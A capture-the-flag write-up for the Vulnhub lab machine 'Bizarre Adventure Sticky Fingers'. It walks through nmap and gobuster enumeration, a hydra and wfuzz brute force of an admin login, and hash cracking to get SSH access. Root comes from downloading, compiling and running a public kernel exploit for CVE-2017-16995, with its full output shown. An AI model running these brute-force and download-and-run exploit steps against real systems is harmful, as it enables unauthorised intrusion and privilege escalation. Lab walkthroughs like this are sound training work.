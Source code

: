 ```yaml
---
title: Vulnhub - Bizarre Adventure Sticky Fingers
description: My writeup on Bizarre Adventure Sticky Fingers box.
categories:
 - vulnhub
tags: vulnhub hydra ssh base64 kernel wfuzz
---
```


![](https://i.kym-cdn.com/photos/images/original/001/420/906/1c2.jpg)

You can find the machine there > [Bizarre Adventure Sticky Fingers](https://www.vulnhub.com/entry/bizarre-adventure-sticky-fingers,560/){:target="_blank"}

## Summary

To be honest, i didn't really like this box. The way you get shell is waste of time anyway..! We start by finding an admin page and brute force it using hydra after looooooong time we get the password. Then after some decoding/decrypting we get a password and we're in. Privilege escalation to root is a simple kernel exploit. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.17
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 00:26 EEST
Nmap scan report for stickyfingers.zte.com.cn (192.168.1.17)
Host is up (0.00056s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
5355/tcp open  llmnr
MAC Address: 08:00:27:7C:38:71 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.23 seconds
$ nmap -p 22,53,80,5355 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 00:27 EEST
Nmap scan report for stickyfingers.zte.com.cn (192.168.1.17)
Host is up (0.00048s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c6:35:09:72:d4:d9:5c:17:56:06:f9:53:c4:90:2f:8d (RSA)
|   256 98:52:48:9e:cc:64:46:94:43:2a:70:52:d1:79:8c:4c (ECDSA)
|_  256 c0:57:d2:9f:fb:70:c8:c6:66:5e:16:17:5b:08:b9:8f (ED25519)
53/tcp   open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: NIVEL 1
5355/tcp open  llmnr?
```

Port 80 has a static website nothing interesting, let's run a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/index.html (Status: 200)
/images (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/fonts (Status: 301)
```

`/admin` has a login page, tried some classic stuff like `admin:admin` `guest:guest` etc but nothing. I checked the `/images` folder and i found a file called `Flag.txt.txt` this file has 2 possible usernames in:

```
$ curl http://192.168.1.17/images/Flag.txt.txt
EASY EASY EASY

Zipperman is cool!

Bucciarati
```

## Shell as bucciarati

Let's fire up hydra on login page. Here is the stupid part.. we have to wait l000000000000000ng time to get the password because the password is in line `1044216` :

```
$ cat /usr/share/wordlists/rockyou.txt | grep -n "Password@123" 
1044216:Password@123
```

Just grab it and save your time. :smile: I'll make another wordlist with this password in to show you the hydra command.

```
$ hydra -l Zipperman -P wordlist.txt $ip http-post-form "/admin/index.php:username=Zipperman&pass=^PASS^:Login Failed"

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-24 00:40:34
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:1/p:4), ~1 try per task
[DATA] attacking http-post-form://192.168.1.17:80/admin/index.php:username=Zipperman&pass=^PASS^:Login Failed
[80][http-post-form] host: 192.168.1.17   login: Zipperman   password: Password@123
```

You can also use `wfuzz`:

```
$ wfuzz -c -w wordlist.txt -d "username=Zipperman&pass=FUZZ" --hc 200 http://192.168.1.17/admin/index.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.17/admin/index.php
Total requests: 4

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                 
===================================================================

000000004:   302        88 L     176 W    2643 Ch     "Password@123"                   
```

We're in as `Zipperman:Password@123`, and after we login redirect us to `/37d1d7d74bef0e8fafe6f8dc37ee25b0` we can see some ascii arts and a base64 string, let's decode it.

```
$ echo ODBlNDEzMDQwNzFjYmY1ODU2NTM2ZTM5MGYzYzc3ZjQ0NWE0OGVjMDE3NzQwNzdiOGM2ODNlMzA5YzUzMTMyOQ== | base64 -d
80e41304071cbf5856536e390f3c77f445a48ec01774077b8c683e309c531329
```

Hmm seems like a hash, let's check it using `hash-identifier`:

```
HASH: 80e41304071cbf5856536e390f3c77f445a48ec01774077b8c683e309c531329 

Possible Hashs:
[+] SHA-256
```

Perfect, let's use [crackstation](https://crackstation.net/){:target="_blank"} to crack it.

![](https://i.imgur.com/5RWBCEb.png)

Now we can use the other username we found before and login in with SSH. `bucciarati:1Password1*`

```
$ ssh bucciarati@$ip                                                                                       
bucciarati@192.168.1.17's password: 

bucciarati@stickyfingers:~$ whoami;id
bucciarati
uid=1000(bucciarati) gid=1000(bucciarati) groups=1000(bucciarati),46(plugdev)
```

## Shell as root

I did lot of enumeration and i found nothing. I checked the history and i found something really interesting:

```
bucciarati@stickyfingers:~$ history
...data...
90  wget http://10.0.0.39:8000/CVE-2017-16995.c
91  gcc CVE-2017-16995.c -o cve2017
```

Probably maker forgot to delete it? anyway i found the exploit [here](https://www.exploit-db.com/exploits/45010){:target="_blank"} and let's use it.

```
bucciarati@stickyfingers:/tmp$ wget -q https://www.exploit-db.com/raw/45010 -O exploit.c
bucciarati@stickyfingers:/tmp$ gcc exploit.c -o exploit
bucciarati@stickyfingers:/tmp$ chmod + exploit
bucciarati@stickyfingers:/tmp$ ./exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8e4c3c70e300
[*] Leaking sock struct from ffff8e4c36699000
[*] Sock->sk_rcvtimeo at offset 592
[*] Cred structure at ffff8e4c3c6e1cc0
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff8e4c3c6e1cc0
[*] credentials patched, launching shell...
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),46(plugdev),1000(bucciarati)
```

Let's read the flag:

```
# cat flag.txt.txt
                 uuuuuuu
             uu$$$$$$$$$$$uu
          uu$$$$$$$$$$$$$$$$$uu
         u$$$$$$$$$$$$$$$$$$$$$u
        u$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$"   "$$$"   "$$$$$$u
       "$$$$"      u$u       $$$$"
        $$$u       u$u       u$$$
        $$$u      u$$$u      u$$$
         "$$$$uu$$$   $$$uu$$$$"
          "$$$$$$$"   "$$$$$$$"
            u$$$$$$$u$$$$$$$u
             u$"$"$"$"$"$"$u
  uuu        $$u$ $ $ $ $u$$       uuu
 u$$$$        $$$$$u$u$u$$$       u$$$$
  $$$$$uu      "$$$$$$$$$"     uu$$$$$$
u$$$$$$$$$$$uu    """""    uuuu$$$$$$$$$$
$$$$"""$$$$$$$$$$uuu   uu$$$$$$$$$"""$$$"
 """      ""$$$$$$$$$$$uu ""$"""
           uuuu ""$$$$$$$$$$uuu
  u$$$uuu$$$$$$$$$uu ""$$$$$$$$$$$uuu$$$
  $$$$$$$$$$""""           ""$$$$$$$$$$$"
   "$$$$$"                      ""$$$$""
     $$$"                         $$$$"

FLAG{JoJ0sZ_B1Z4RrR3_AddV3nT9R3_}

create by Joas Antonio
Linkedin:https://bit.ly/3ki1WBE
```

